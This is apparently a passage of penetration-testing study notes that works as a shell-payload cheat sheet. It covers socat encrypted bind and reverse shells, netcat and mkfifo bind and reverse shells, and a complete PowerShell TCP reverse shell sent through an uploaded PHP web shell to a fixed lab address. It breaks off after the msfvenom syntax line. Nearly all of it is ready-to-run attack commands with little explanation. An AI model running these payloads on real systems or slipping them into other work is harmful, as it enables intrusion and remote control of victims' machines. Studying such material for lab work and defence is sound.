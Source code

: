 ```socat TCP-L:<PORT> FILE:`tty`,raw,echo=0```
Target:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

Attacker:

`socat OPENSSL:<TARGET-IP>:<PORT>,verify=0 -`

Special TTY shell listener:

```socat OPENSSL-LISTEN:<PORT>,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0```

Special connect back

`socat OPENSSL:<ATTACKER-IP>:<PORT>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

### Common Shell Payloads

Some versions of netcat allow you to execute a process on the connection with the `-e` tag.
As Windows nearly always needs a static binary this works but on Linux we may have to use 
another method.

Bind shell:

`nc -lnvp <PORT> -e /bin/bash`

Reverse shell:

`nc <TARGET-IP> <PORT> -e /bin/bash`

On Linux we can use this code instead:

Listener for a bind shell:

`mkfifo /tmp/f; nc -lnvp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

The command first creates a named pipe at `/tmp/f`. It then starts a netcat listener, and 
connects the input of the listener to the output of the named pipe. The output of the 
netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the 
stderr output stream into stdout, and sending stdout itself into the input of the named 
pipe, thus completing the circle.

Listener for a reverse shell:

`mkfifo /tmp/f; nc <ATTACKER-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

Powershell reverse shell:

`http://10.10.117.0/uploads/shell-1.php?cmd=powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.7.163',8008);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

### msfvenom

Syntax for msfvenom:

`msfvenom -p <PAYLOAD> <OPTIONS>`

Payload naming conventions:

```